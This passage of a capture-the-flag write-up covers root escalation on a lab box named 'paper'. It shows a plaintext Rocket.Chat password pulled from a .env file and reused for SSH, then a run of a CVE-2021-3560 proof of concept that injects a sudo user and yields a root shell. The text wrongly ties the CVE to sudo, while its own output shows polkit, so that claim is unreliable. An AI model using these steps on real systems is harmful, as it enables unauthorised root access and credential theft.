 ## Escalate

I find an environment file with a password by grepping around:

```console
[dwight@paper ~]$ cat hubot/.env 
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1

```

This gives me the password for user `dwight`, but unfortunately that user has no `sudo` privileges.

I don't find any interesting `setuid` binaries.

Eventually I discover that the version of `sudo` on the machine is vulnerable to [CVE-2021-3560](https://www.exploit-db.com/exploits/50011). There's a PoC available. The exploit allows adding a new user with `sudo` access.

```console
[dwight@paper ~]$ ./poc.sh  -u=luser

[!] Username set as : luser
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username luser...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username luser  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - luser
[!] When prompted for password, enter your password
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!

[dwight@paper ~]$ su - luser
Password: 
[luser@paper ~]$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for luser: 
[root@paper luser]# id
uid=0(root) gid=0(root) groups=0(root)
[root@paper luser]# cat /root/root.txt
```